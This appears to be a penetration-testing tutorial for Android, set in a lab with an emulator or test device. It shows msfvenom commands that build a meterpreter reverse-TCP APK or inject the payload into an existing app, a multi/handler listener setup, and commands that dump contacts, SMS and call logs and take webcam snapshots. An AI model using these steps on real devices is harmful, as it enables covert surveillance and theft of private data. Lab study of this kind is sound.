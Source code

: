 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![](Images/Documentations/Metasploit_for_Android/1.jpg)

1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img
!img

Install the apk generated on the target device(genymotion/android)

!img
!img

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

!img

$ use exploit/multi/handler

!img


$ set payload android/meterpreter/reverse_tcp

!img

$ show options

!img

$ set LHOST <localhost ip>

!img

$ exploit ‘or’ run

!img

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

!img

$ help ‘or’ ?

!img

$ dump_contacts

!img

$ dump_sms

!img

$ dump_calllog

!img

Go to the ‘metasploit-framework’ folder to get the dumps

!img

$ cat <calllog.txt>

!img

$ cat <contacts.txt>

!img

$ cat <sms.txt>

!img

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

!img

!img

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

Thanks for reading!





